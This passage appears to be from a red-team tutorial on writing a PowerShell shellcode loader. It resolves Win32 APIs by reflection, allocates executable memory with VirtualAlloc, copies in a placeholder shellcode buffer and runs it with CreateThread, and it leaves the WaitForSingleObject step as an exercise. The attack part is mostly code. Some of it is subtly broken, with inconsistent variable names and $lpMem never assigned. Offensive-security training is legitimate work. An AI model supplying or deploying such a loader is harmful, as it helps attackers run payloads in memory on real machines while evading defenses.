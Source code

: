 ```
$MessageBoxAddr = LookupFunc user32.dll MessageBox
$MessageBoxDelType = getDelegateType @([IntPtr], [String], [String], [int])
([IntPtr])$MessageBox = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($MessageBoxAddr, $MessageBoxDelType)
$MessageBox.Invoke([IntPtr]::Zero,"Hello World!","HELLO",0)
```

Modifying the Script to execute Shellcode
---

The POC can now be modified to call VirtualAlloc and CreateThread to run shellcode. For this to be done, the lookupFunc will be used to find the address for both our target functions in kernel32.dll. Finally, the arguments sent to getDelegateType should reflect the data types of our target functions. See below. 

---
CreateThread
```
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  __drv_aliasesMem LPVOID lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```
VirutalAlloc
```
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```


Modified POC
---
```
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), 
(getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $shellc_buff = <SHELLCODE>

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $shelc_buff.length)
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), 
(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
```
---
Completing the Shellcode Loader
---
The final piece of the shellcode loader consists of locating and calling the WaitForSingleObject API from kernel32.dll. Calling this function with the appropriate arguments will ensure that the shell will not instanteniously terminate and only stop when the shell is terminated by the operator. This part is left as an exercise.

---